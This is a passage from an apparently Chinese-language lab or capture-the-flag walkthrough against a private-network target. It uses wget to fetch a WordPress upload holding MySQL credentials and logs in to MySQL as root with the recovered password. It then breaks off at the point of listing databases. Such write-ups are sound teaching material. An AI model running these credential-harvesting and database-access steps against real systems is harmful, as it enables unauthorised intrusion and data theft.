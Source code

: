 ```plain
wget https://192.168.179.149:12380/blogblog/wp-content/uploads/1140321183.jpeg --no-check-certificate
cat 1140321183.jpeg
```

[![](assets/1699929525-81b59ba9d2cb4e3f9eb0659cb5d4f7fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140117-e5146afa-8120-1.png)

里面包含mysql用户名与密码等重要信息

### mysql登录

使用用户名root和密码plbkac进行数据库登录

```plain
mysql -h 192.168.179.149 -uroot -pplbkac
```

查看数据库和相关表：
